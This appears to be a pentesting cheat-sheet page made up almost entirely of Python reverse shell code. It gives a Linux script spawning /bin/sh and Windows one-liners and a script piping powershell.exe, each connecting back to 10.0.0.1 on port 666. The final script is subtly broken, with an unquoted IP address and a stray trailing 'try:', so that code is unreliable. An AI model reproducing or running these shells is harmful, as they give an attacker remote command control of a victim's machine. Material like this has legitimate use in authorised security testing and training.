 #### <mark style="color:green;">Script</mark>

```
#!/usr/bin/env python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",666))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

### <mark style="color:orange;">for Windows</mark>

```
exec("""import os, socket, subprocess, threading, sys\ndef s2p(s, p):\n    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()\ndef p2s(s, p):\n    while True: s.send(p.stdout.read(1).encode())\ns=socket.socket(socket.AF_INET, socket.SOCK_STREAM)\nwhile True:\n    try: s.connect(("10.0.0.1",666)); break\n    except: pass\np=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)\nthreading.Thread(target=s2p, args=[s,p], daemon=True).start()\nthreading.Thread(target=p2s, args=[s,p], daemon=True).start()\ntry: p.wait()\nexcept: s.close(); sys.exit(0)""")
```

or

```
python -c 'exec("""import os, socket, subprocess, threading, sys\ndef s2p(s, p):\n    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()\ndef p2s(s, p):\n    while True: s.send(p.stdout.read(1).encode())\ns=socket.socket(socket.AF_INET, socket.SOCK_STREAM)\nwhile True:\n    try: s.connect(("10.0.0.1",666)); break\n    except: pass\np=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)\nthreading.Thread(target=s2p, args=[s,p], daemon=True).start()\nthreading.Thread(target=p2s, args=[s,p], daemon=True).start()\ntry: p.wait()\nexcept: s.close(); sys.exit(0)""")
```

#### <mark style="color:green;">Script</mark>

```
import os, socket, subprocess, threading, sys

def s2p(s, p):
    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()

def p2s(s, p):
    while True: s.send(p.stdout.read(1).encode())

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
while True:
    try: s.connect((10.0.0.1, 666)); break
    except: pass

p=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)

threading.Thread(target=s2p, args=[s,p], daemon=True).start()

threading.Thread(target=p2s, args=[s,p], daemon=True).start()

try: p.wait()
except: s.close(); sys.exit(0)

try:
```